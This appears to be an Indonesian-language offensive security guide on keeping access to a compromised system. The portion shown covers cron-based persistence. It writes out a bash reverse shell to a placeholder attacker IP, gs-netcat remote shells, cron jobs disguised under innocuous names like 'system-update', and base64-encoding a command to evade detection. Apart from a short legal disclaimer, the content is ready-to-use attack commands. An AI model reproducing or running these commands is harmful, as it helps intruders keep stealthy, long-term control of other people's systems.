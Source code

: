 # 🔒 Persistence Techniques

> **Original Technical Content**: Sekiya
> **Compiled and Summarized by**: Tamas

## 📋 Overview

Persistence adalah teknik untuk mempertahankan akses pada sistem target setelah mendapatkan akses awal. Tujuannya adalah agar akses tetap tersedia meskipun sistem di-restart atau ada perubahan konfigurasi.

## ⚠️ Disclaimer

Teknik ini hanya untuk penetration testing yang sah dan tujuan edukasi. Penggunaan ilegal adalah tanggung jawab pengguna.

## 🎯 Tujuan Persistence

- ✅ Mempertahankan akses setelah reboot
- ✅ Survive system updates dan patches
- ✅ Backup access jika primary method terdeteksi
- ✅ Stealth operation untuk jangka panjang

## 🔧 Metode Persistence

### 1. Cron Jobs (Linux/Unix)

**Tujuan**: Menjalankan reverse shell secara berkala

#### Basic Cron Persistence:
```bash
# Setiap menit
echo "* * * * * bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1" >> /var/spool/cron/root

# Setiap 5 menit
echo "*/5 * * * * /usr/bin/gs-netcat -c -s secret -i" | crontab -

# Setiap jam pada menit ke-0
echo "0 * * * * /tmp/.hidden/shell.sh" | crontab -

# Setiap hari jam 3 pagi
echo "0 3 * * * /usr/local/bin/maintenance.sh" | crontab -
```

#### Stealth Cron Jobs:
```bash
# Gunakan nama script yang terlihat normal
echo "*/10 * * * * /usr/bin/system-update" | crontab -
echo "0 2 * * * /usr/local/bin/log-rotate" | crontab -

# Encode command untuk menghindari deteksi
ENCODED=$(echo "gs-netcat -c -s secret -i" | base64)
echo "*/5 * * * * echo '$ENCODED' | base64 -d | bash" | crontab -

# User-specific crontab (tidak perlu root)
crontab -e
# Tambahkan: */5 * * * * /home/user/.local/bin/update-check
```
